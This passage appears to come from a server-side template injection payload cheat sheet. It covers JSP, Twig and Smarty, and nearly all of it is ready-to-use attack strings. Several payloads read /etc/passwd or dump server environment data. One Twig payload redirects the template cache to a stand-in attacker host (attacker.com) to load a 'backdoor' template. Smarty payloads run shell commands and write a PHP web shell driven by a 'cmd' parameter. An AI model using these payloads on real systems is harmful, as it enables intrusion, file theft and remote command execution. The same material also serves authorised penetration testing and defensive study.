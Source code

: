 ### Advanced:
```jsp
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

---

##  **Twig (PHP)**

```twig
{{7*7}}
{{7*'7'}}
```
### Enumeration:

```twig
{{ dump(app) }}
{{ app.request.server.all|join(',') }}
```
### LFI / Exfil:

```twig
"{{ '/etc/passwd' | file_excerpt(1,30) }}"
```

### Exploit via Template Cache Poisoning:

```twig
{{ _self.env.setCache("ftp://attacker.com:2121") }}
{{ _self.env.loadTemplate("backdoor") }}
```

---

##  **Smarty (PHP)**

### Detection:

```smarty
{$smarty.version}
```
### Code Execution:

```smarty
{php} echo `id`; {/php}
```
### Remote Write Shell:

```smarty
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME, "<?php passthru($_GET['cmd']); ?>", self::clearConfig())}
```

---